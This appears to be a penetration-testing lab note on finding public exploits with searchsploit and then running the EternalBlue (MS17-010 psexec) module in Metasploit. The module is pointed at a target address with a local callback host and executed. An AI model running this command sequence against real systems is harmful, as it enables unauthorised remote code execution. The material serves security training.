 # Public Exploits

Once we have used our #enumeration tools and performed various discovery related tasks, we can further investigate this data and find known exploits for the sites we have assessed. Even a basic search can reveal common vulnerabilities and the associated exploits for any version or directory we find.

#### Searchsploit

#Searchspolit is a common exploit discovery tool that uses information from the discovery phase to determine possible vectors for attack.

Install Searchsploit with the following command:

> sudo apt install exploitdb -y

Once installed, we can now use searchsploit to search for a specific application, in this case it's openssh 7.2:

> searchsploit openssh 7.2

##### Other Database Tools

Exploit DB, Rapid7DB, and Vulnerability Lab are alternative tools that also identify known public vulnerabilities for web applications.

### Metasploit

Metasploit Framework ( #MSF) is a useful tool for exploitations that offers a range of features. Metasploit can run reconnaissance scripts, verify scripts without compromising a target, connect to shells for command execution, and enumeration of remote hosts.

We can open Metasploit with the following command:

> msfconsole

The following command will examine our target for the eternalblue exploit:

> search exploit eternalblue

This will return the specific exploit for this service. We can then employ this exploit with the following command: 

> use exploit/windows/smb/ms17_010_psexec

This will not work, as we need to configure the exploit before it can be run:

> show options

Within this generated menu, we can see what aspects are required in order to perform this exploit. In this case we need to supply 'RHOSTS' - the #IP address(es) of the target and 'LHOSTS', which is the IP of your own machine.

> set RHOSTS 10.10.10.40

>set LHOST tun0

> check

At this point, Metasploit should verify whether the exploit will be able to be used or not. Now we can run the exploit with the command 'exploit' or 'run'.

> exploit

